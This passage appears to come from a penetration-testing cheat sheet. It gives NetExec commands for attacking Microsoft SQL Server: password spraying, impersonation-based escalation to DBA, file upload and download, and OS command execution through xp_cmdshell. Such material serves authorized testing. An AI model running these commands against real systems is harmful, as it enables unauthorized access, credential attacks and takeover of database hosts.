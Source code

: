 Ports can be also be specified:

```bash
nxc mssql <target> -u <user> -p <pass> --port <port>
```
{% endtab %}

{% tab title="Password Spray" %}
{% code overflow="wrap" %}
```bash
nxc mssql <target> -u userfile -p passwordfile --no-bruteforce --continue-on-success
```
{% endcode %}
{% endtab %}

{% tab title="PrivEsc" %}
From standard user to DBA:

```bash
# Check if possible
nxc mssql <ip> -u user -p password -M mssql_priv

# Impersonate
nxc mssql <ip> -u user -p password -M mssql_priv -o ACTION=privesc

# Rollback
nxc mssql <ip> -u user -p password -M mssql_priv -o ACTION=rollback
```
{% endtab %}

{% tab title="RCE" %}
{% code overflow="wrap" %}
```bash
nxc mssql <target> -u <user> -p <pass> --local-auth -q 'SELECT name FROM master.dbo.sysdatabases;'
```
{% endcode %}
{% endtab %}

{% tab title="Transfers" %}
{% code overflow="wrap" %}
```bash
# Upload
nxc mssql <target> -u <user> -p <pass> --put-file /tmp/users C:\\Windows\\Temp\\whoami.txt

# Download
nxc mssql <target> -u <user> -p <pass> --get-file C:\\Windows\\Temp\\whoami.txt /tmp/file
```
{% endcode %}
{% endtab %}

{% tab title="xp_cmdshell" %}
```bash
nxc mssql <target> -u <user> -p <pass> --local-auth -x whoami
```
{% endtab %}
{% endtabs %}
